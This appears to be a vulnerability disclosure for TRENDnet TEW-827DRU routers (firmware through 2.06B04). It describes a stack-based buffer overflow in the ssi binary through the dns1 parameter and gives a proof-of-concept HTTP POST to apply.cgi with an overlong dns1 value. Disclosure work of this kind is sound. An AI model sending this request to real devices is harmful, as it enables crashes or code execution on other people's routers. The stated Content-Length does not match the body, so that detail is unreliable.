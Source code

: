 # TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action vlan_setting with a sufficiently long dns1 or dns 2 key.
## detail
The bug in function 0x4434B0, binary www/cgi/ssi
The parameter 'dns1' pass to sprintf
![vlan_setting](image.png)

## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

action=vlan_setting&method=static&dns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dns2=a
```
